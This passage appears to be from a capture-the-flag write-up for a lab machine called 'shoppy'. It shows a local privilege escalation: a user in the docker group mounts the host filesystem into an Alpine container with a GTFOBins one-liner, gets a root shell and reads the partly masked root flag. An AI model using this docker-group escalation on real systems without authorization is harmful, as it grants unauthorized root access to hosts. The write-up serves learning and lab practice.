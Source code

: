 ```
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

There aren't any containers running, and there is one image on the box, alpine.

```
deploy@shoppy:~$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   6 months ago   5.53MB
```

By default, any docker container is run with root privileges. Since `deploy` is in the docker group, we can create a new container and have root privileges in it.
The idea behind this exploit is to mount the whole filesystem in a docker container, and since we'll have root access inside of it, we can read the root flag.

Here is some further information about this method:
<https://flast101.github.io/docker-privesc/>

I use the command from the [docker page on GTFObins]((https://gtfobins.github.io/gtfobins/docker/)). I get root access in the container and can read the flag. 

```
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cat /root/root.txt
f8c9e0*******************
```


